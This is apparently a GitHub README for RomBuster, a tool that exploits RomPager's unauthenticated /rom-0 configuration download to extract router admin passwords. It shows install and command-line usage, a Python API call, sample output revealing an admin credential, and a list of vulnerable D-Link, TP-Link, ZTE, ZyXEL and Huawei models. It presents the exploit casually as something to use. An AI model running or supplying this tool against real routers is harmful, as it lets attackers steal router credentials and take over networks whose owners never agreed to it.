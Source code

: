 # RomBuster

**RomBuster** is a `RomPager` exploitation tool that allows to disclosure network router admin password.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## RomBuster CLI

Let's hack my router just for fun.

```shell
rombuster --address 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to device ...
[*] (192.168.2.1) - accessing device rom ...
[*] (192.168.2.1) - extracting credentials ...
[i] (192.168.2.1) - admin:SuperHardPassword999
```

Oh, looks like it vulnerable to this vulnerability.

## RomBuster

Let's do this again, but through API.

```python
from rombuster import RomBuster

rombuster = RomBuster()

device = rombuster.connect('192.168.2.1')
print(rombuster.exploit(device))
```

## Vulnerability disclosure

Vulnerability that exploits **RomBuster** exists nowadays in some popular routers all over the world. This vulnerability allows you to download `/rom-0` RomPager configuration file without authentication. **RomBuster** downloads this file, decodes it and giving you password of the router `admin`. Pretty easy way to access main network interface - router.

**Vulnerable devices:**

* **AirLive WT-2000ARM** (`2.11.6.0(RE0.C29)3.7.6.1`)
* **D-Link DSL-2520U** (`1.08 Hardware Version: B1`)
* **D-Link DSL-2640R**
* **D-Link DSL-2740R** (`EU_1.13 Hardware Version: A1`)
* **Huawei 520 HG**
* **Huawei 530 TRA**
* **Pentagram Cerberus P 6331-42**
* **TP-Link TD-8816**
* **TP-Link TD-8817** (`3.0.1 Build 110402 Rel.02846`)
* **TP-LINK TD-8840T** (`3.0.0 Build 101208 Rel.36427`)
* **TP-Link TD-W8901G**
* **TP-Link TD-W8951ND**
* **TP-Link TD-W8961ND**
* **ZTE ZXV10 W300** (`W300V1.0.0a_ZRD_CO3`)
* **ZTE ZXDSL 831CII** (`ZXDSL 831CIIV2.2.1a_Z43_MD`)
* **ZynOS**
* **ZyXEL ES-2024**
* **ZyXEL Prestige P-2602HW**
* **ZyXEL Prestige 782R**
